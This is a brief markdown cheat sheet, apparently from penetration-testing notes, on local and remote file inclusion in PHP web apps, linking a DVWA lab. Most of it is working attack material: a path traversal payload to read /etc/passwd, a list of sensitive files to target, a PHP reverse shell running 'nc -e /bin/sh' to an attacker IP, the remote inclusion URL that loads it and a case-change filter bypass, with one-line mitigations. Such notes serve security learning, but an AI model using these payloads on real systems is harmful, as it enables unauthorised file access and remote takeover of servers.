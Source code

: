 # File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```

- Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```

- Bypass
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable *"allow_url_fopen = On"* & *"allow_url_include = On"*

